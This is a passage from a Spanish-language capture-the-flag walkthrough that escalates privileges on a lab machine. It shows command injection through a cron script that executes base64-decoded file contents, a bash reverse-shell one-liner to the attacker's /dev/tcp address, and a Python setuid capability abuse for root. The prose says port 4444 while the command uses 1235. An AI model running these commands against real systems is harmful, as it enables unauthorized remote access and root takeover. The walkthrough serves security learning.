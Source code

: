 ![Pasted image 20241103223538](https://github.com/user-attachments/assets/265a4527-af46-4436-bf89-60f42191c64b)


Efectivamente podemos ver el contenido de esta carpeta, vemos un script de `bash`, este script hace lo siguiente

- Recibe una contraseña del archivo `.wp-encrypted.txt`
- Decodifica la contraseña que está en `base64`
- Almacena la contraseña en `/tmp/decoded.txt`
- Ejecuta la contraseña como un comando

## Command Injection

Como está ejecutando lo que recibe del archivo `.wp-encrypted.txt` sin sanitizar el contenido, podemos inyectar un comando a nivel de sistema en este archivo, enviemos una `shell` como el usuario que ejecuta este script a nuestra máquina atacante por el puerto `4444`, y esperaremos a ver si el código se ejecuta en algún momento

~~~ bash
echo "bash -c 'bash -i >& /dev/tcp/172.17.0.1/1235 0>&1'"| base64
~~~

![Pasted image 20241103233558](https://github.com/user-attachments/assets/3455968f-b073-457d-8eef-a3263120bc5a)

En unos segundos recibimos una  `shell` como el usuario `kvzlx` en `nc`

![Pasted image 20241103234633](https://github.com/user-attachments/assets/d1952ced-b0ba-4d22-9532-5a74cbe9c82e)

Nuevamente haremos un tratamiento para usar esta consola de forma más cómoda y con nuestras proporciones

![Pasted image 20241103234757](https://github.com/user-attachments/assets/67491fc2-efe1-4b5d-9a82-daece68af7ec)

Si hacemos una vista de los procesos que este usuario ejecuta, podemos ver que se está ejecutando el archivo `.cron_script.sh` que vimos anteriormente

~~~ bash
ps -aux
~~~

![Pasted image 20241103235221](https://github.com/user-attachments/assets/d9b118fc-0bcb-455b-a6ff-c56926d60aa9)

Siempre que tengamos acceso a un nuevo usuario debemos volver a buscar formas de escalar privilegios. como `sudo`, `suid`, `capabilities`, etc. En este caso obtuve el mismo resultado al listar las capabilities del binario `/opt/python`

~~~ bash
/sbin/getcap -r / 2>/dev/null
~~~

![Pasted image 20241104001110](https://github.com/user-attachments/assets/08a6cd3b-cfe6-4304-a7e8-9e1cc42a1983)

## Root Time

Intentaremos usar la `capability` que tenemos asignada en `/opt/python` para escalar nuestro privilegio de igual forma que lo intentamos con el usuario `www-data`

~~~ python
/opt/python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
~~~

![Pasted image 20241103235740](https://github.com/user-attachments/assets/65ad32e5-17b8-4e84-879b-82e4419fe65e)
